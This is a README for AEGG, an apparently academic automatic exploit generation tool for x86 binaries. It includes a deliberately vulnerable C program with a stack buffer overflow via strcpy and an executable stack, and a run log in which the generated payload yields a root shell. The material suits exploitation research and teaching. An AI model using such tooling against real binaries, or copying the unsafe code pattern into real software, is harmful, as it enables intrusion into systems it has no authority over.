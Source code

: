 AEGG
----

AEGG is my simple automatic exploit generation tool. Now only support x86 binary.

Usage
-----

1. vi `vul.c`:
    ```
    #include <stdio.h>
    #include <unistd.h>
    #include <string.h>

    char buf[100];

    int sample_func() {
        char name[10] = {0};
        read(0, buf, 307);
        strcpy(name, buf);
        printf("input: %s\n", name);
    }

    int main(void)
    {
        printf("Running...\n");
        sample_func();
        printf("Done.\n");
    }
    ```
2. complie `vul`:
    ```
    gcc vul2.c -o vul2 -m32 -g -z execstack
    ```
3. vi `my_aegg.py`:
    ```
    from aegg import AEGG

    binary = './vul'
    gg = AEGG(binary)

    # generating payload!
    gg.hack()

    print repr(gg.payloads)
    gg.save()
    ```


Result
------

```
$ python my_aegg.py
...
INFO    | 2016-06-18 00:10:11,717 | aegg.aegg | Start hacking ...
INFO    | 2016-06-17 23:44:43,872 | pwnlib.elf | Stack is executable!
[+] Started program './vul'
INFO    | 2016-06-17 23:44:46,974 | pwnlib.tubes.process | Started program './vul'
[*] Stopped program './vul'
INFO    | 2016-06-17 23:44:47,976 | pwnlib.tubes.process | Stopped program './vul'
INFO    | 2016-06-17 23:44:47,980 | aegg.aegg | Generated!
INFO    | 2016-06-17 23:44:47,980 | aegg.aegg | Completed.
$
$ (cat ./vul.exp; cat) | ./vul
Running...
input: jhh///sh/bin��1�j
                           �̀ÿ @@   @
id
uid=0(root) gid=0(root) groups=0(root)
```


Dependences
-----------

- angr
- pwntools


TODO
----

- class Payload
- ROP: leak_based, gadget_based
- AEGG: inputs in exploit_gen instead of paths (for fuzzing)
- ret2stack: try every buffer
- fmtstr exploit


Reference
---------

[angr-doc/examples/insomnihack_aeg](https://github.com/angr/angr-doc/blob/master/examples/insomnihack_aeg/)

[(State of) The Art of War: Offensive Techniques in Binary Analysis](https://www.cs.ucsb.edu/~vigna/publications/2016_SP_angrSoK.pdf)

[AEG: Automatic Exploit Generation](http://repository.cmu.edu/cgi/viewcontent.cgi?article=1239&context=ece)

